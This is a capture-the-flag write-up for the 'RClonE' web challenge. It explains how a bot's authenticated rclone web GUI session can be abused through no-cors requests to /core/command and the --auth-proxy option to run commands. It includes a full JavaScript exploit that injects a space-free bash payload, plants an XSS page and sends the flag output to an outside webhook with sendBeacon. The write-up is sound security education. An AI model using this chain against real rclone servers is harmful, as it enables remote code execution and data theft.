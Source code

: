 # RClonE - Web

By: disna

## Description

```
Rclone is a CLI that syncs your files to various cloud storage. But do you know it also have a built-in web UI?
```
- Author: maple3142
- Solves: 27


The challenge consists of two containers: one that runs [`rclone`](https://github.com/rclone/rclone)'s web GUI on `rclone:5572`, and a bot that authenticates itself on said container before navigating to an URL of our choosing. The `rclone` container does not have any internet connectivity.

<details>
    <summary><code>Dockerfile</code></summary>

```Docker
FROM debian:bookworm-slim

RUN apt-get update && \
    apt-get install -y tini ca-certificates curl unzip && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*
WORKDIR /workdir

ARG RCLONE_VERSION=v1.67.0
ARG RCLONE_NAME=rclone-$RCLONE_VERSION-linux-amd64
ARG RCLONE_HASH=07c23d21a94d70113d949253478e13261c54d14d72023bb14d96a8da5f3e7722

RUN curl https://downloads.rclone.org/$RCLONE_VERSION/$RCLONE_NAME.zip -o rclone.zip && \
    echo $RCLONE_HASH rclone.zip | sha256sum -c && \
    unzip rclone.zip && \
    mv $RCLONE_NAME/rclone /usr/bin

COPY ./readflag /readflag
RUN chmod 111 /readflag

RUN useradd -ms /bin/bash ctf
USER ctf

ENTRYPOINT ["tini", "--"]
CMD rclone rcd --rc-addr 0.0.0.0:5572 --rc-web-gui --rc-user $SECRET --rc-pass $SECRET --rc-web-gui-no-open-browser
```
</details>

<details>
    <summary><code>bot.js</code></summary>

```javascript
const puppeteer = require('puppeteer')

const SECRET = process.env.SECRET || 'secret'
const sleep = async ms => new Promise(resolve => setTimeout(resolve, ms))

const auth = `${SECRET}:${SECRET}`
const SITE = process.env.SITE || 'http://rclone:5572'
const tmpurl = new URL(`/?login_token=${encodeURIComponent(btoa(auth))}`, SITE)
tmpurl.username = SECRET
tmpurl.password = SECRET
const LOGIN_URL = tmpurl.href
console.log('[+] LOGIN_URL:', LOGIN_URL)

let browser = null

const visit = async url => {
        let context = null
        try {
                if (!browser) {
                        const args = ['--js-flags=--jitless,--no-expose-wasm', '--disable-gpu', '--disable-dev-shm-usage']
                        if (new URL(SITE).protocol === 'http:') {
                                args.push(`--unsafely-treat-insecure-origin-as-secure=${SITE}`)
                        }
                        browser = await puppeteer.launch({
                                headless: 'new',
                                args
                        })
                }

                context = await browser.createBrowserContext()

                const page1 = await context.newPage()
                await page1.goto(LOGIN_URL)
                await page1.close()

                const page2 = await context.newPage()
                await Promise.race([
                        page2.goto(url, {
                                waitUntil: 'networkidle0'
                        }),
                        sleep(5000)
                ])
                await page2.close()

                await context.close()
                context = null
        } catch (e) {
                console.log(e)
        } finally {
                if (context) await context.close()
        }
}

module.exports = visit

if (require.main === module) {
        visit('http://example.com')
}
```
</details>

<details>
        <summary><code>docker-compose.yaml</code></summary>

```yaml
services:
  rclone:
    image: rclone
    build: .
    environment:
      - SECRET=secret  # randomized secret per instancer
    networks:
      - chall
  bot:
    image: rclone-bot
    build: ./bot
    environment:
      - TITLE=Admin Bot for RClonE
      - PORT=8000
      - URL_CHECK_REGEX=^https?://.{1,256}$
      - SECRET=secret  # randomized secret per instancer
    security_opt:
      - seccomp=chrome.json
    ports:
      - "${PORT}:8000"
    networks:
      - default
      - chall
networks:
  chall:
    internal: true
```
</details>

`rclone` is a tool used to transfer files, much like `rsync`, between local and compatible cloud storage formats (e.g., S3). The goal of the challenge is to execute `/readflag` on the `rclone` container, and read out the result somehow.

## Solution description

The web GUI conveniently exposes a `/core/command` endpoint, which we can access from any origin through `no-cors` requests, and essentially lets us run any `rclone` command as if we ran it from the terminal, such as `rclone sync`, `rclone ls`, etc., with an arbitrary set of arguments. How convenient!

A grep through the `rclone` codebase reveals `exec.Command` being used a couple of times. Notably, in `cmd/serve/proxy/proxy.go`, we find:

```go
func (p *Proxy) run(in map[string]string) (config configmap.Simple, err error) {
	cmd := exec.Command(p.cmdLine[0], p.cmdLine[1:]...)
```

And, a snippet from the output of `rclone serve http --help`:

```
### Auth Proxy

If you supply the parameter `--auth-proxy /path/to/program` then
rclone will use that program to generate backends on the fly which
then are used to authenticate incoming requests.
```

An easy way to execute arbitrary binaries, by simply sending an authenticated request (e.g., `a:b@rclone:8080`)! One might assume that the `--auth-proxy` option only admits executing binaries without arguments, but the implementation of it in `cmd/serve/proxy/proxy.go` implies arguments do get sent to it. `p.cmdLine` gets populated from `strings.Fields(opt.AuthProxy)`, so we send it a space-separated `/bin/bash -c <PAYLOAD>` argument. There is a little fiddling involved, because `<PAYLOAD>` cannot contain any spaces, but [this blog](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html) details a way to use a payload that does not contain spaces.

To read out the flag, we also run `rclone rcd http /tmp --rc-addr 0.0.0.0:8079`, to expose all files in `/tmp` over HTTP. Then, a payload to pipe the output of `/readflag` into `/tmp/flag.txt` and a subsequent request to `rclone:8079/flag.txt` _should_ be sufficient to extract the flag, and from there we can send if to a webhook we own to win.

## Summary
- Send bot to our domain
- Have the bot send `no-cors` commands to `/core/command` to set up a HTTP server on `rclone:8080`, for RCE, and `rclone:8079`, for retrieving the flag.
- Send request with credentials to `rclone:8080`
- Retrieve flag from `rclone:8079/flag.txt`
- win

<details>
        <summary><code>index.js</code></summary>

```javascript
const leDomain = "rclone"
const rcAPIEndpoint = `http://${leDomain}:5572`;
const fakeRcAPIEndpoint = `http://a:b@${leDomain}:8080`;
const webhook = "https://exfil-addr.x.pipedream.net";
const exfilRcAPIEndpoint = `http://${leDomain}:8079`;
const ownedUrl = "https://secure.mydomain.tld";
for (let i = 0; i < 1; i++) {
    // just a threaded python server that has a route that just sleeps for 5 seconds.
    fetch(`${ownedUrl}/delay`, {
        cache: "no-store",
        mode: "no-cors",
    })
}

(async () => {
    console.log("started")
    const sleep = async (ms) => new Promise(resolve => setTimeout(resolve, ms));
    let res;

    let innerScript = `
const webhook = "${webhook}";
navigator.sendBeacon(webhook, "xss script init");
console.log("xss script init");
(async () => {
    console.log(window.location);
    let res = await fetch("/flag.txt");
    res = await res.text();
    navigator.sendBeacon(webhook, res);
    console.log("gg!")
})();
    `.trim();
    innerScript = innerScript.split('').map(c => c.charCodeAt(0)).join(',');

    if (window.location.protocol == "https:") {
        let uServe = new URL(`${rcAPIEndpoint}/core/command`)
        uServe.searchParams.set("command", "serve")
        uServe.searchParams.set("arg", JSON.stringify(["http", "--auth-proxy", `/bin/bash -c CMD=$'\\x20<script>eval(String.fromCharCode(${innerScript}))</script>';/readflag>/tmp/flag.txt;echo$CMD>/tmp/xss.html`, "--addr", "0.0.0.0:8080", "--verbose", "--log-file", "/tmp/log", "--allow-origin", "*"]))
        uServe.searchParams.set("fs", "/")
        uServe.searchParams.set("_async", "true")
        try {
            res = fetch(uServe.href, {
                method: "POST",
                credentials: "include",
                mode: "no-cors"
            });
        } catch (e) { }
        let uRCD = new URL(`${rcAPIEndpoint}/core/command`)
        uRCD.searchParams.set("command", "rcd")
        uRCD.searchParams.set("arg", JSON.stringify(["/tmp", "--rc-addr", "0.0.0.0:8079", "--rc-allow-origin", "*", "--verbose", "--log-file", "/tmp/log-exfil"]))
        uRCD.searchParams.set("fs", "/")
        uRCD.searchParams.set("_async", "true")
        try {
            res = fetch(uRCD.href, {
                method: "POST",
                credentials: "include",
                mode: "no-cors"
            })
        } catch (e) { }
        window.open(`${fakeRcAPIEndpoint}/`, "_blank");
        await sleep(1000);
        console.log("all opened")
        window.location = `http://${leDomain}:8079/xss.html`
    } else if (window.location.protocol == "http:") {
    }
})();
```
</details>

## Notes

- The `rclone serve` and `rclone rcd` commands, when run over `/core/command`, will continue running until the connection drops. `no-cors` requests instantly drop the connection to not reveal any form of timing information to the initiator. We had to have the commands be run async instead.
- Regular fetch requests cannot have credentials in the request URI, and neither can iframe src URIs. `window.open` is okay with it though, which is what we used to trigger the authenticated request and `--auth-proxy` behavior.
- Running our domain as HTTP does not work because browsers will block non-secure requests from public domains towards private IP ranges. In this case, a request from our domain (public) towards `rclone:<port>` (private) constituted as such.
- Running our domain as HTTPS also posed a problem because the server at `rclone:8079` ran on HTTP, and sending a HTTP request would trigger a mixed-resource error.
- We also found that while trying to redirect from HTTPS to HTTP, the browser just forces HTTPS anyways. We got around this by injecting an HTML page on `rclone:8079` and navigating there instead.